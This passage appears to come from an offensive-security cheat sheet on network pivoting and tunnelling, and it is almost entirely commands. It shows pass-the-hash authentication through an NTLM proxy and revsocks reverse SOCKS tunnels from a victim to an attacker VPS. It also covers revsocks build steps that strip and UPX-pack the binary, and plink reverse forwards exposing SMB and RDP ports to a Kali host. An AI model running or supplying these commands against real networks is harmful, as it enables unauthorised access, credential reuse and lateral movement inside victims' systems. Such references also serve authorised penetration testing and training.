 ```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe --password 1q2w3e
```

Passing the hash

```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe \
--hashes 986D46921DDE3E58E03656362614DEFE:50C189A98FF73B39AAD3B435B51404EE
```

## revsocks

```powershell
# Listen on the server and create a SOCKS 5 proxy on port 1080
user@VPS$ ./revsocks -listen :8443 -socks 127.0.0.1:1080 -pass Password1234

# Connect client to the server
user@PC$ ./revsocks -connect 10.10.10.10:8443 -pass Password1234
user@PC$ ./revsocks -connect 10.10.10.10:8443 -pass Password1234 -proxy proxy.domain.local:3128 -proxyauth Domain/userpame:userpass -useragent "Mozilla 5.0/IE Windows 10"
```

```powershell
# Build for Linux
git clone https://github.com/kost/revsocks
export GOPATH=~/go
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
go build
go build -ldflags="-s -w" && upx --brute revsocks

# Build for Windows
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
go build -ldflags -H=windowsgui
upx revsocks
```

## plink

```powershell
# exposes the SMB port of the machine in the port 445 of the SSH Server
plink -l root -pw toor -R 445:127.0.0.1:445 
# exposes the RDP port of the machine in the port 3390 of the SSH Server
plink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389  

plink -l root -pw mypassword 192.168.18.84 -R
plink.exe -v -pw mypassword user@10.10.10.10 -L 6666:127.0.0.1:445

plink -R [Port to forward to on your VPS]:localhost:[Port to forward on your local machine] [VPS IP]
# redirects the Windows port 445 to Kali on port 22
plink -P 22 -l root -pw some_password -C -R 445:127.0.0.1:445 192.168.12.185   
```
